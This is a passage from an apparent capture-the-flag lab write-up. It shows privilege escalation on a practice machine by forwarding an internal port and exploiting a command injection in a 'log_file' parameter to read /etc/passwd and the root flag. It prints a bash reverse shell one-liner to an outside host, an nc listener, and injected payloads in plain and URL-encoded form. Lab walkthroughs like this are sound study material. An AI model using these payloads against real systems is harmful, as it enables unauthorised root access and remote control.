 2. We don’t have many processes running. Let’s check for open ports.

**_Command — Check ports: ss_**

```
ss -lntp
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*Wy2Vi-OhP8oP2FcOZCS-YA.png)

3. There is a service running on port 8080. We can forward this port to check what’s running.

**_Command — Forward port: ssh_** #ssh

```
ssh -L 9001:127.0.0.1:8080 amay@10.10.11.28
```

4. Upon opening port 8080 on our browser, we see the below.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*f2FNaAarnxxGBxt6oMMenQ.png)

5. Clicking the ‘Analyze’ fetches the file ‘access.log’. On seeing the output, Command injection was the first thing that came to my mind.

6. Firedup Burp and sent the request to ‘Repeater’. Changed the ‘log_file’ parameter to ‘/etc/passwd’.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*cyBGbAChn-XoaToBCpsU5w.png)

7. It fetched and showed the file. So it is indeed a command injection vulnerability. #CommandInjection 

8. Attempting to fetch /root/root.txt didn’t reveal the flag. While we could use a bash one-liner reverse shell to gain a root shell, let’s explore why the root.txt file wasn’t retrieved.

**Payload:** /root/root.txt;a

9. Playing around with the parameter ‘log_file’ revealed the root flag for the above payload. I don’t know why it worked. Let’s get a root shell.

**_Command — bash reverse shell: bash_**

```
bash -c 'bash -i >& /dev/tcp/10.10.14.65/4000 0>&1'
```

**_Command — reverse shell listener: nc_**

```
rlwrap nc -nvlp 4000
```

**Payload:** /root/root.txt; bash -c ‘bash -i >& /dev/tcp/10.10.14.65/4000 0>&1’;a

10. URL Encode the payload in burp.

**Payload:** /root/root.txt%3b+bash+-c+’bash+-i+>%26+/dev/tcp/10.10.14.65/4000+0>%261'%3ba

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*qpu6thsyPrTwifnWiTLsyQ.png)

Now, We are ROOT! Thanks for Reading. Happy hacking!!